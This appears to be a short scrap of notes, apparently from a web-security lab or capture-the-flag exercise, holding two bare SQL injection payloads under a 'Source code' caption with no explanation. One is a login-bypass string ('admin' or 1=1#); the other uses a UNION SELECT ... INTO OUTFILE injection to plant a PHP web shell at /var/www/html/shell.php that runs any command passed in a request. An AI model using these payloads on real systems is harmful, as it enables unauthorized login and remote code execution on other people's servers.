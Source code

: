 admin' or 1=1#

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -